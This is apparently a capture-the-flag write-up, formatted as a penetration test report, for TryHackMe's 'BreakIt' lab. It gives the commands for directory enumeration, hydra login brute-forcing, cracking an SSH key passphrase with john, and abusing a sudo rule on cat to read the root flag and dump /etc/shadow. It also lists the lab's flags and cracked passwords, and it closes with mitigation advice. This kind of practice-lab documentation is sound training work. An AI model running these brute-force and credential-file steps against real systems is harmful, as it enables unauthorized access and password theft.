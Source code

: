# Vulnerability Assessment and Penetration Testing (VAPT) Report – BreakIt

**Prepared by:** Nishanth Antony  
**Date:** August 21, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify active hosts, open ports, services, and vulnerabilities.  
**Commands Used:**  
```bash
ping <target_ip>  
nmap -p- --min-rate=1000 -sV <target_ip> -T4 -v  
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Findings:**  
- Host confirmed online via ping.  
- Open ports: SSH (22, OpenSSH 7.6p1), HTTP (80, Apache 2.4.29).  
- Web enumeration revealed `/admin` directory with a login page.  
- HTML comment in `/admin` disclosed username `admin`.  

---

## 2. Exploitation Process  
**Step 1 – Web Enumeration (Port 80)**  
- Used gobuster to find `/admin` directory:
  ```bash
  gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
  ```  
- `/admin` login page HTML comment revealed username `admin`.  

**Step 2 – Brute-Forcing Admin Credentials**  
- Brute-forced `/admin` login credentials:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
  ```  
- Result: Password `xavier`.  

**Step 3 – Admin Panel Access**  
- Logged into `/admin` with admin:xavier.  
- Obtained web flag: `THM{brut3_f0rce_is_e4sy}` and an RSA private key file (id_rsa).  

**Step 4 – SSH Key Analysis**  
- Copied id_rsa and converted to hash:
  ```python
  python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  ```
- Cracked passphrase with john:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
- Result: Passphrase `rockinroll`.  
- Webpage hinted RSA key belonged to user `john`.  

**Step 5 – SSH Access as John**  
- Logged in via SSH:  
  `ssh -i id_rsa john@<target_ip>` with passphrase `rockinroll`.  
- Found user.txt in /home/john: `THM{a_password_is_not_a_barrier}`.  

**Step 6 – Privilege Escalation**  
- Checked sudo permissions:
```bash
  sudo -l
```
- Found john could run `/bin/cat` as root without a password.  
- Exploited to read /root/root.txt:
```bash
  sudo cat /root/root.txt
```
- Result: Root flag `THM{pr1v1l3g3_3sc4l4t10n}`.  
- Copied /etc/shadow to /tmp/shadow:
```bash
  sudo cat /etc/shadow > /tmp/shadow
```
- Cracked root password from /tmp/shadow:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ``` 
- Result: Password `football`.  

---

## 3. Proof of Concept (PoC)  
- **Web Brute Force:**
```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
```  
  Obtained admin:xavier.  
- **SSH Key Cracking:**
```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
  Cracked passphrase rockinroll.  
- **Privilege Escalation:**
```bash
  sudo cat /root/root.txt
```
  Accessed root flag.  
- **Password Hash Cracking:**
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
  Cracked root:football.  

---

## 4. Privilege Escalation  
- Exploited sudo permission allowing john to run `/bin/cat` as root.  
- Read /root/root.txt and /etc/shadow, enabling root password cracking.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Remove sensitive information (e.g., username hints) from HTML comments.  
  - Restrict `/admin` access with stronger authentication mechanisms.  
- **Authentication Security:**  
  - Enforce complex passwords for web and SSH accounts.  
  - Use strong, unique passphrases for SSH keys.  
- **Sudo Configuration:**  
  - Limit sudo commands to specific, necessary files.  
  - Avoid allowing powerful commands like `/bin/cat` without restrictions.  
- **File Security:**  
  - Protect sensitive files (e.g., id_rsa, /etc/shadow) with strict permissions (chmod 600).  
  - Avoid storing private keys in accessible web directories.  
- **Patch Management:**  
  - Update Apache and OpenSSH to the latest versions.  
  - Implement monitoring for unauthorized access attempts.  

---

## 6. Lessons Learned  
- **Weak Credentials:** Simple passwords (e.g., xavier) are vulnerable to brute-force attacks.  
- **Information Disclosure:** HTML comments can leak critical information like usernames.  
- **Sudo Misconfiguration:** Overly permissive sudo rules enable easy privilege escalation.  
- **SSH Key Security:** Weak passphrases and accessible private keys risk unauthorized access.  

---

## 7. Skills Practiced  
- Network scanning (`nmap`, `ping`)  
- Web directory enumeration (`gobuster`)  
- Credential brute-forcing (`hydra`)  
- SSH key cracking (`john`, `ssh2john`)  
- Sudo privilege escalation  
- Password hash cracking  
- Secure reporting and mitigation strategies  
